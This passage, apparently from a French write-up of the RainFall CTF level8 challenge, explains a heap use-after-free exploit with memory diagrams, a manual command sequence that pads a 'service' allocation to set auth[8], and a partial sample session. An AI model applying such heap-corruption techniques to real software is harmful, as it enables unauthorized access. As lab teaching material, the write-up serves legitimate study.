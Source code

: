 ```
┌─────────────────┐    ┌─────────────────┐    ┌─────────────────┐
│   Fragmentation │    │   Service       │    │   Auth[8]       │
│   Heap          │───▶│   Allocation    │───▶│   Control       │
│   Multiple auth │    │   Near auth[8]  │    │   != 0          │
└─────────────────┘    └─────────────────┘    └─────────────────┘
```

### 4.6 Mécanisme de UAF

```
┌─────────────────┐
│ auth[0-3]       │ ← Zone allouée (4 bytes)
├─────────────────┤
│ auth[4-7]       │ ← Zone non allouée
├─────────────────┤
│ auth[8]         │ ← Cible de vérification
└─────────────────┘
```

### 4.7 Commandes complètes

**Important :** Cette exploitation doit être faite **manuellement** et non avec un script. Les raisons sont :

1. **Timing critique** : Le programme traite les commandes une par une avec des délais
2. **Allocation séquentielle** : L'allocateur de mémoire a besoin de temps entre les opérations
3. **Session interactive** : Le programme maintient l'état entre les commandes dans la même session

### 4.8 Exploitation manuelle

```bash
# Se connecter au niveau
ssh level8@<IP> -p 4242

# Lancer le programme
./level8

# Tapez les commandes une par une (attendez l'affichage des pointeurs entre chaque) :
auth AAAA
reset
auth BBBB
reset  
auth CCCC
reset
serviceAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
auth DDDD
login
```

### 4.9 Exemple de session manuelle

```bash
level8@RainFall:~$ ./level8
(nil), (nil) 
auth AAAA
0x804a008, (nil) 
reset
0x804a008, (nil) 
auth BBBB
0x804a008, (nil) 
reset
0x804a008, (nil) 
auth CCCC
0x804a008, (nil) 
reset
```